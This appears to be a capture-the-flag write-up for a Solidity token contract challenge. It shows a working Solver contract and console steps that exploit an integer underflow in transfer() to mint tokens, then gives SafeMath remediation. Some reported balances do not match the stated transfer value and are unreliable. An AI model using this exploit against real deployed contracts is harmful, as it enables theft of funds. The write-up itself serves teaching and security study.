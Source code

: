 ![Token](/assets/img/BigLevel5.svg)

- [Challenge](#challenge)
- [Solution](#solution)
- [Remediation](#remediation)
- [References](#references)
   
# Challenge

The level says:

> The goal of this level is for you to hack the basic token contract below.
> 
> You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.
>
>  Things that might help:
>
>  - What is an odometer?

And gives the following contract's code:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

# Solution

As usual, we start by reading the contract and interacting with its functions to understand what it does.

Let's call some functions and see their values:

```javascript
await contract.totalSupply().then(v => v.toString())
'21000000'
```

```javascript
await contract.balanceOf(OUR_ADDRESS).then(v => v.toString())
'20'
```

```javascript
await contract.balanceOf(OWNER_ADDRESS).then(v => v.toString())
'20999980'
```

Ok, this makes sense. There is a total of 21000000 tokens in the contract, we have 20 and the owner has the rest. So, what happens if we try to transfer 1 token to the owner's address?

```javascript
await contract.transfer(OWNER_ADDRESS, 1)
```

```javascript
await contract.balanceOf(OUR_ADDRESS).then(v => v.toString())
'19'
```

```javascript
await contract.balanceOf(OWNER_ADDRESS).then(v => v.toString())
'20999981'
```

It works! Perfect! Now, how can we get more tokens? We cannot transfer the ones from the owner as the contract is keeping the balances by using `msg.sender`. So if we would want to get the tokens from the owner, we would need to call transfer from the owner's account... If we transfer money from ourselves we would end up having the same balance...

Could we try to write a contract that calls transfer? By doing that, `msg.sender` would be the "Solver" contract's address. But that address is going to have 0 as balance. So, what can we do?

If we read the level's info again, it gives us a clue, which says "What is an odometer?"

> An odometer is an instrument for measuring the distance travelled by a wheeled vehicle.

![Odometer](/assets/img/odometer.jpeg)

The interesting thing about this instrument is, what happens, once it reaches 999999km, if we continue driving the car? It goes back to 000000!!

So this hints us that we would need to exploit an overflow (in this case an underflow)

> an integer overflow occurs when an arithmetic operation attempts to create a numeric value that is outside the range that can be represented with a given number of digits – either higher than the maximum or lower than the minimum representable value.

Note that the balances and values are `uint`(`uint256`) which means unsigned integer (in these case of 256 bits) its minimum value is 0 (because it is an **unsigned** integer) and its maximum value is 2^256-1 = 115792089237316195423570985008687907853269984665640564039457584007913129639935.

Also note that the `require` of the `transfer()` function is `balances[msg.sender] - _value >= 0`. Can a subtraction of two UNSIGNED integers be lesser than 0? Well, the answer is no.

So going back to our previous question, if we call transfer from a newly created contract that has a balance of 0 is the require going to pass? Let's try it...

We can code a `Solver.sol` like this:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "hardhat/console.sol";
import "./Token.sol";

contract Solver {
    Token token;

    constructor(address tokenAddress) public {
        token = Token(tokenAddress);
    }

    function solve(uint _value) public {
        token.transfer(tx.origin, _value);
    }
}

```

This contract can be deployed with the Token's contract address and when the function `solve()` is called with a "value" as argument, it will call the Token's `transfer()` function with our address and the value as inputs. Let's run that code in remix and call it with a value of `100000000000`

And now let's check the balances of the contract:

```javascript
await contract.totalSupply().then(v => v.toString())
'21000000'
```

```javascript
await contract.balanceOf(OUR_ADDRESS).then(v => v.toString())
'10000000000000019'
```

```javascript
await contract.balanceOf(OWNER_ADDRESS).then(v => v.toString())
'20999981'
```

And what is the Solver's balance going to be?

```javascript
await contract.balanceOf(SOLVER_CONTRACT_ADDRESS).then(v => v.toString())
'115792089237316195423570985008687907853269984665640564039457574007913129639936'
```

Which is exactly 2^256 - 100000000000 :) Because the variable "underflowed"

So that's all! We solved the challenge as we managed to get a LOT more tokens than provided (even more than the `totalSupply` of the contract :O)

![Well done](/assets/img/ethernaut_solved.png)

# Remediation

When performing arithmetic operations in solidity versions prior to 0.8, always use libraries like OpenZeppelin's [SafeMath](https://docs.openzeppelin.com/contracts/2.x/api/math) which wraps the arithmetic operations with overflow checks.

Note: `SafeMath` is no longer needed starting with Solidity 0.8. The compiler now has built in overflow checking.

# References

- [SWC-101](https://swcregistry.io/docs/SWC-101)